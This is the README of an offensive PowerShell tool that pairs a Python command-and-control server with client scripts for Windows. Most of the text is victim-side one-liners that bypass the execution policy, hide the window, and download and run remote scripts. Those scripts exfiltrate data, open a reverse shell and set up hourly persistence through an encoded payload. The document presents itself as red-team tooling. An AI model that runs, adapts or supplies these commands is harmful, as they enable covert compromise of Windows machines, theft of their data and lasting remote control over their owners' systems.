 ## PowerShellXFiltration
A Python web server to execute several actions on a Windows system, acting like a C2.
Useful for redteam.

### Example
1. Change the listening IP/Port in `server.py` (default is `0.0.0.0:8000`).
2. Change the IP/port of your Python server in `client_exf.ps1` (`<HOST>` and `<PORT>`).
3. Change the IP/port of your listener reverse-shell in `client_rvs.ps1` (`<HOST>` and `<PORT>`).
4. Change the `<BASE64_ENCODED_PAYLOAD>` for persistence in `client_pers.ps1` (encode with UTF-16LE).
5. Run:
```
ATTACKER> python3 server.py

#For data exfiltration
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_exf');"

#For reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_rvs');"

#For running a persistent command (by default runs every hour for 6 days, but can be changed in `client_pers.ps1`)
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_pers');"

#For running data exfiltration + reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/run_all');"
```
